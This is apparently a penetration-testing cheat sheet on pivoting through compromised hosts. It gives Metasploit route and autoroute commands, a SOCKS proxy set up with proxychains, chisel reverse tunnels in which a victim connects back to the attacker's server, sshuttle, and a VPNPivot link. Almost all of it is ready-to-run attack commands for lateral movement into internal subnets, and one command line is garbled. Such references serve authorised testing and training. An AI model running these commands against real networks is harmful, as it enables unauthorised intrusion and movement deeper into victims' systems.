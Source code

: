 ## Pivot with Metasploit
In this case victim 1, in  subnet 2, is initialy used to contact victim 2, in subnet 2.
But after the reverse shell is ran, the communication is made between the attacker and victim 2.

**Method 1**

	msf > route add [ip] [net mask] [session]
	msf > route add 10.10.10.0 255.255.255.0 2
	msf > route print
	msf > route flush

**Method 2**

	meterpreter > run autoroute -s 10.10.10.0/24
	meterpreter > run autoroute -p #show routing table

**Method 3**

	msf > use post/windows/manage/autoroute
	msf > set session [session]
	msf > set subnet [subnet] #subnet is the subnet that we wish to access
	msf > run
	msf > route flush
## Use routing table to run external tools
	meterpreter > use auxiliary/server/socks_proxy
	add socks4 $ip 1080 to proxychains4.conf
	proxychains [command]

### Pivot if there's no internet access for victim 2
In this case victim 1, in subnet 1, is used as a proxy to access subnet 2 so we can contact, through victim 1, victim 2.

	msf > use post/windows/manage/autoroute
	msf > set session [session] 
	set sumsf > bnet [subnet1]
	msf > run
	msf > use post/windows/manage/autoroute
	msf > set session [session]
	msf > set subnet [subnet2]
	msf > run
	exploit using LHOST with the IP of victim 1 
## Pivot with chisel

### Method 1
#### Attacker
 
	chisel server --socks5 --reverse
	
#### Victim
	chisel client --fingerprint [fingerprint] [chisel server ip]:[chisel server port] R:socks

#### Attacker
	sudo nano /etc/proxychains4.conf
		add socks5	127.0.0.1 [chisel server port]

### Method 2

#### Attacker
	chisel server --reverse

#### Victim

	chisel client --fingerprint [fingerprint] [chisel server ip]:[chisel server port] R:[attack port to forward to]:[victim ip]:[victim port]

## Pivot with SSHUTTLE
	sshuttle -r user@host 10.10.10.0/24
## Pivot with VPNPivot
	https://github.com/0x36/VPNPivot

